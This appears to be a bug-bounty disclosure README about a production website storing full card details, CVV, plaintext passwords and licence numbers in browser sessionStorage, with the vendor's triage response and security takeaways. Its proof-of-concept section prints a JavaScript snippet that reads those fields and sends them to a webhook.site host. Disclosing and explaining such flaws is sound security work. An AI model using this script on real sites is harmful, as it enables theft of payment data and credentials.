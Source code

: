 🛑 Client-Side Sensitive Data Exposure on a Production Website – Full Credit Card, Password & ID Stored in Plaintext

Real-world disclosure of a critical web security flaw: full credit card details, login credentials, and ID numbers stored in plaintext in the browser’s memory. Discovered and responsibly disclosed via a public VDP on HackerOne.

⸻

📌 Summary

This repository documents a critical vulnerability discovered on a production website of a global company, where highly sensitive user data was stored in plaintext in the browser using sessionStorage and cookies, in violation of industry standards.

Exposed Data:
	•	Full credit card number (PAN), CVV, expiration date
	•	Driver’s license number
	•	Plaintext password
	•	Full user profile (name, email, phone, address)

This data was:
	•	Not encrypted, hashed, or protected
	•	Persisted across multiple authenticated pages
	•	Accessible to JavaScript, browser extensions, and DevTools
	•	Exfiltratable using a minimal PoC without XSS or elevated privileges

⸻

🔍 Technical Overview

After user login, the browser’s sessionStorage contained the following plaintext fields:

creditCardNumber, creditCardExpireMonth, creditCardExpireYear,
cvvNumber, skinnyPassword, driversLicense, personalAddress1,
firstName, lastName, email, phone

Any JavaScript running in the session context (e.g., from injected third-party libraries, browser extensions, or future XSS) could silently access and exfiltrate this data.

⸻

🧪 Proof of Concept

A minimal exfiltration script (executed in the browser console or by a malicious extension):

var stealthImage = new Image();
stealthImage.src = "https://webhook.site/xxx?" +
  "cc=" + encodeURIComponent(sessionStorage.getItem("creditCardNumber")) +
  "&cvv=" + encodeURIComponent(sessionStorage.getItem("cvvNumber")) +
  "&expMonth=" + encodeURIComponent(sessionStorage.getItem("creditCardExpireMonth")) +
  "&expYear=" + encodeURIComponent(sessionStorage.getItem("creditCardExpireYear")) +
  "&dl=" + encodeURIComponent(sessionStorage.getItem("driversLicense")) +
  "&pwd=" + encodeURIComponent(sessionStorage.getItem("skinnyPassword")) +
  "&email=" + encodeURIComponent(sessionStorage.getItem("email")) +
  "&phone=" + encodeURIComponent(sessionStorage.getItem("phone")) +
  "&url=" + encodeURIComponent(window.location.href);
document.body.appendChild(stealthImage);

📤 Data was successfully exfiltrated using Webhook.site, confirming real-world impact.

⸻

📜 Standards Violated
	•	🔴 PCI DSS 3.2 – Storing full credit card details and CVV post-authentication is strictly prohibited
	•	🟠 OWASP Secure Storage – Recommends avoiding storage of sensitive data in browser-accessible memory
	•	🔵 GDPR / CCPA – Mandate the secure storage and processing of personal and financial data

⸻

🔁 Vendor Response

The issue was responsibly disclosed via a public Vulnerability Disclosure Program (VDP) on HackerOne.

Initial triage feedback categorized the issue as Informative, stating:

“The present issue appears to be a self-XSS, which is not directly exploitable or would require convincing the user to copy/paste the JavaScript payload into the vulnerable field.”
— HackerOne Analyst

While this rationale reflects a focus on exploitability in the current session, the presence of this sensitive data in browser-accessible memory constitutes a severe architectural vulnerability, especially when combined with potential future client-side injection points.

A request for re-evaluation has been submitted, highlighting a successful PoC and partial post-report mitigation observed.

⸻

🔐 Security Takeaways

✔️ Never store sensitive information like credit card data or plaintext passwords on the client side
✔️ Treat all client-side storage as exposed
✔️ Don’t rely on “no XSS now = no risk” — threat landscapes evolve
✔️ Implement secure-by-design architecture from the beginning

⸻

👤 About the Researcher

cybernomad42
	•	Freelance pentester & bug bounty hunter
	•	Security consultant focused on client-side flaws, web app security, and compliance
	•	LinkedIn: linkedin.com/in/patrykkieszek
	•	HackerOne: hackerone.com/cybernomad42

⸻

📂 Repository Tags

bug-bounty pentesting sessionStorage plaintext-data credit-card-leak
client-side-vulnerability pci-dss owasp javascript-security cybersecurity